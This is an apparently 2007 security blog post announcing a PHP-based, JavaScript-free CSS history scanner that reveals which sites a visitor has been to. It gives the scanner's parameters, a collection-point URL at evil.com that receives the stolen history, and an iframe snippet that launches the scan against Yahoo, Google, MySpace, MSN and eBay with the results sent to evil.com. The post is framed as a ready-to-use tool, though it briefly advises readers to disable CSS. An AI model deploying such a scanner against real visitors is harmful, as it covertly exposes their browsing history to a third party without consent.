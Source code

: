 ```yaml
---
title: Noscript HScan
author: pdp
date: Wed, 28 Feb 2007 22:57:00 GMT
template: post.pug
category: fucked
---
```


After releasing my Firefox specific [history scanner](/blog/hscan-redux/), RSnake came up with [his own](http://ha.ckers.org/blog/20070228/steal-browser-history-without-javascript) bleeding edge history scanning technique which is based on Jeremiah Grossman's [implementation](http://jeremiahgrossman.blogspot.com/2006/08/i-know-where-youve-been.html) but it does not require JavaScript. This approach has its own limitations and advantages.

On the advantages side, you don't really need JavaScript to steal the victim's browser history anymore. So, everybody who is thinking that turning off JavaScript is the safe way to go, you are most definitely wrong. You should turn CSS off too. This is it. Sparten browsing is the key. On the other hand, history scanning without JavaScript is less powerful in a way that attackers are not able to perform actions as soon as a history entry is discovered.

Still, I think that RSnake's approach is quite interesting and innovative. I decided to write a generic scanner that can be configured on the fly to steal any browser history. The scanner is located [here](/files/2007/02/noscript-hscan-php.txt). Before using it you need to pass several GET or POST (it is up to you really) parameters to the script like this:

	noscript-hscan.php?u1=[url]&u2=[url]&t=[target collection point]

The scanner excepts any number of URLs. The only rule is that every URL parameters must start with **u** (lower case u). It is a good practice to number the URLs that you want to scan as u1, u2, u3, etc. The **t** parameter is for the target collection point. This is the place where the history information will be sent to. The collection point will receive requests that look like the following:

	http://evil.com/path/to/collection/point?u=[url]&t=[timestamp]&c=[ip]

The easiest way you can launch the generated scanning code is to include it inside an iframe. For example you can use something like the following:

```html
<iframe src="noscript-hscan.php?t=http%3A//evil.com/path/to/collection/point%3F&u0=http%3A//www.yahoo.com/&u1=http%3A//www.google.com/&u2=http%3A//www.myspace.com/&u3=http%3A//www.msn.com/&u4=http%3A//www.ebay.com/&"></iframe>
```

_This is it! It is simple._
